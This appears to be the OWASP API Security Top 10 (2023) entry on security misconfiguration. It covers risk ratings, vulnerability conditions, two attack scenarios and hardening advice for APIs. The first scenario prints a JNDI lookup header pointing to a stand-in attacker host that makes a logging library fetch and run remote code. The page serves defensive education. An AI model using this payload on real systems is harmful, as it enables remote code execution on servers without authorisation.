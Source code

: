 API7:2023 Security Misconfiguration
===================================

| Threat agents/Attack vectors | Security Weakness | Impacts |
| - | - | - |
| API Specific : Exploitability **3** | Prevalence **3** : Detectability **3** | Technical **2** : Business Specific |
| Attackers will often attempt to find unpatched flaws, common endpoints, services running with insecure default configurations, or unprotected files and directories to gain unauthorized access or knowledge of the system. Most of this is public knowledge and exploits may be available. | Security misconfiguration can happen at any level of the API stack, from the network level to the application level. Automated tools are available to detect and exploit misconfigurations such as unnecessary services or legacy options. | Security misconfigurations can not only expose sensitive user data, but also system details that can lead to full server compromise. |

## Is the API Vulnerable?

The API might be vulnerable if:

* Appropriate security hardening is missing across any part of the API stack,
  or if there are improperly configured permissions on cloud services
* The latest security patches are missing, or the systems are out of date
* Unnecessary features are enabled (e.g. HTTP verbs, logging features)
* There are discrepancies in the way incoming requests are processed by servers
  in the HTTP server chain
* Transport Layer Security (TLS) is missing
* Security or cache control directives are not sent to clients
* A Cross-Origin Resource Sharing (CORS) policy is missing or improperly set
* Error messages include stack traces, or expose other sensitive information

## Example Attack Scenarios

### Scenario #1

An API back-end server maintains an access log written by a popular third-party
open-source logging utility with support for placeholder expansion and JNDI
(Java Naming and Directory Interface) lookups, both enabled by default. For
each request, a new entry is written to the log file with the following
pattern: `<method> <api_version>/<path> - <status_code>`.

A bad actor issues the following API request, which gets written to the access
log file:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Due to the insecure default configuration of the logging utility and a
permissive network outbound policy, in order to write the corresponding entry
to the access log, while expanding the value in the `X-Api-Version` request
header, the logging utility will pull and execute the `Malicious.class` object
from the attacker's remote controlled server.

### Scenario #2

A social network website offers a "Direct Message" feature that allows users to
keep private conversations. To retrieve new messages for a specific
conversation, the website issues the following API request (user interaction is
not required):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Because the API response does not include the Cache-Control HTTP response
header, private conversations end-up cached by the web browser, allowing
malicious actors to retrieve them from the browser cache files in the
filesystem.

## How To Prevent

The API life cycle should include

* A repeatable hardening process leading to fast and easy deployment of a
  properly locked down environment
* A task to review and update configurations across the entire API stack. The
  review should include: orchestration files, API components, and cloud
  services (e.g. S3 bucket permissions)
* An automated process to continuously assess the effectiveness of the
  configuration and settings in all environments

Furthermore:

* Ensure that all API communications from the client to the API server and any
  downstream/upstream components happen over an encrypted communication channel
  (TLS), regardless of whether it is an internal or public-facing API.
* Be specific about which HTTP verbs each API can be accessed by: all other
  HTTP verbs should be disabled (e.g. HEAD).
* APIs expecting to be accessed from browser-based clients (e.g., WebApp
  front-end) should, at least:
  * implement a proper Cross-Origin Resource Sharing (CORS) policy
  * include applicable Security Headers
* Restrict incoming content types/data formats to those that meet the business/
  functional requirements.
* Implement a proper Cross-Origin Resource Sharing (CORS) policy on APIs
  expected to be accessed from browser-based clients (e.g. web app front-ends).
* Ensure all servers in the HTTP server chain (e.g. load balancers, reverse
  and forward proxies, and back-end servers) process incoming requests in a
  uniform manner to avoid desync issues.
* Where applicable, define and enforce all API response payload schemas,
  including error responses, to prevent exception traces and other valuable
  information from being sent back to attackers.

## References

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### External

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
